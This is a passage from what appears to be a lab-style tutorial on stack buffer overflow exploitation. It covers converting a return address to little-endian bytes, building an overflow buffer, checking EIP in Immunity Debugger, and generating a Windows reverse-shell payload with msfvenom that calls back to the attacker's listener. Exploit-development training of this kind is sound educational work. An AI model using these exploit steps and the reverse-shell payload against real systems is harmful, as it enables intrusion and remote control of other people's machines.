  
Once we have discovered an address we would like to use we need to convert it into bytes for our python code to read. we also need to determine the [endianness](https://en.wikipedia.org/wiki/Endianness) of the program. In short if the system uses big endian, the stack gets filled from the top to the bottom and little endian is filled from the bottom towards the top.![](en-cache://tokenKey%3D%22AuthToken%3AUser%3A174687877%22+3f51bb24-85f9-466b-7bd5-a875449bb09d+e2d59912799812fdf800a3d6d5fd3865+https://www.evernote.com/shard/s743/res/6d62508c-ca60-f448-dd25-8e1b25d284a0)

![](../.gitbook/assets/image.png)

So how does this affect us?

If we have an address of **0x625011AF**

if we convert it to Little Endian it will look like: **\xAF\x11\x50\x62**

And if we convert it to Big Endian it will look like: **\x62\x50\x11\xAF**

```text
retrn = "\xAF\x11\x50\x62"
```

{% hint style="danger" %}
**Once we have added the address into our return pointer in python we can then run the program and set a breakpoint \(F2 in immunity\) on our address\(ctrl + g to search for the address in immunity\). Running our exploit will stop the program on our address and we can then follow the steps \(F7 in immunity\) to make sure our return address stored in EIP directs us to our payload \(which should be in ESP :\)**
{% endhint %}

```text
fuzz = "A" * offset + retrn + "C" * (3000 - 4 - offset)
```

### 7. Creating Payload

Once we are sure that our code is working and redirecting execution to our payload. we can then go ahead and create our payload to grant us a reverse shell.  
kali:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -a x86 --platform windows -b "\x00\x23\x3c\x83\xba" -f py
```
